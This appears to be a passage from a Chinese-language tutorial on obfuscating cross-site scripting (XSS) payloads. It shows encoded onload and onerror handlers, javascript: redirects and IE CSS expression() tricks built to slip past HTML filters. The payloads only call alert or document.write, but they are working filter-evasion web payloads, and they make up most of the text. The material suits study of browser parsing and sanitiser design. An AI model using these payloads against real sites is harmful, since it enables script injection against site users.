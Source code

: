 采用了 entity 编码，最后一处是先使用 javascript 的 unicode 编码，然后再 entity 编码。

由于是直接处理 DOM 的方法和对象，与直接在 script 标签内处理字符串的环境还是不同，但是我们可以加注释或者换行符。

```
<body onload="al&#000101rt&#8233
//&#x0d/*&#00*/(document. dom&#x5cu0061in)//"> 
```

当使用 location 重定向到 javascript:伪协议 url 的时候，又可以多做一重编码了：

```
<body/:a/onload="location='j&#97vAscript:'
+&#x28[&#x5d+
'\141\l\u0065rt\r\(/*&#x2a/docum%65nt.dom\x&#x0032;561in)'
)"> 
```

事件同时又可以直接调用其他属性：

```
<img src="x" onload="alert(1)" onerror="this.onload()">
<img/src="*/(1)"title="alert/*"onerror="eval(title+src)"> 
```

style 属性的混淆，一个没有任何混淆的简单例子：

```
<input type="text" value="" style=display:block;position:absolute;top:0;left:0;width:999em; height:999em onmouseover=alert(1) a="" name="foo" /> 
```

利用之前总结的在属性里的混淆方法：

```
<l1!/style="-:\65 \x/**/\p\r\0&#x30;0065 /**/ssio\n(write /**&#x2f(dom\u0061in))"> 
```

在 expression 中，我们可以直接访问 document 中的 write 方法和 domain 属性，这表明我们当前位于 document 的 DOM 范围内。

```
<l1!/style="-:\65 \x/**/\p\r\0&#x30;0065 /**/ssio\n(location='j&#97vAscript:'+&#x28[&#x5d+'document.write\r\(/*&#x2a/1)'))"> 
```

转到 javascript 的 URL 时，已不在 document 当中，访问 write 方法时需要使用 document.write。

看到有\xx 和\xxxxxx 的 Unicode 编码，这些都是 CSS 编码，与 JavaScript 编码非常相似。

下面两个 URL 中列举了一些浏览器对各种奇怪的 css 语法支持情况：

[`imfo.ru/csstest/css_hacks/import.php`](http://imfo.ru/csstest/css_hacks/import.php) [`centricle.com/ref/css/filters/`](http://centricle.com/ref/css/filters/)

在 IE 中，css 的解析非常的宽泛：

```
<style>
/*\*/*{x:expression(write(1))/*
</style>
<style>
_{content:"\"/*" x}
*{0:expression(write(2))
</style>
<a style=<!---/**/&#61expression(write(3))/*-- > X</a > 
```

